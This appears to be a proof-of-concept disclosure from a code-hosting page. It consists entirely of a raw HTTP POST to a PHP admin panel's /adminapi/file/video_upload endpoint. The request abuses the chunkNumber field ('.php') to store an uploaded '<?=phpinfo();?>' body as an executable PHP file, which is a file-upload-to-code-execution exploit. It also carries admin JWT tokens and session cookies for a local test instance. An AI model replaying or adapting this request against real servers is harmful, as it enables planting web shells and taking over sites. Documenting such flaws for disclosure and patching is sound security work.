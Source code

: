 POC 数据包：

```php
POST /adminapi/file/video_upload?XDEBUG_SESSION_START=13429 HTTP/1.1
Host: localhost:45600
Content-Length: 842
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBCTWThi2iCHWlO8M
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/cms/article/add_article
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=23b220209fa9cd4879a5173dc74c2bba; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k; expires_time=1696648920; WS_ADMIN_URL=ws://localhost:45600/notice; WS_CHAT_URL=ws://localhost:45600/msg;XDEBUG_SESSION_START=13429;
Connection: close

------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="chunkNumber"

.php
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="chunkSize"

3145728
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="currentChunkSize"

52
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<?=phpinfo();?>
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="filename"

token.mp4
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="totalChunks"

1
------WebKitFormBoundaryBCTWThi2iCHWlO8M
Content-Disposition: form-data; name="md5"

6a2d9342b9afb96e10fef23910e0e1eb
------WebKitFormBoundaryBCTWThi2iCHWlO8M--
```
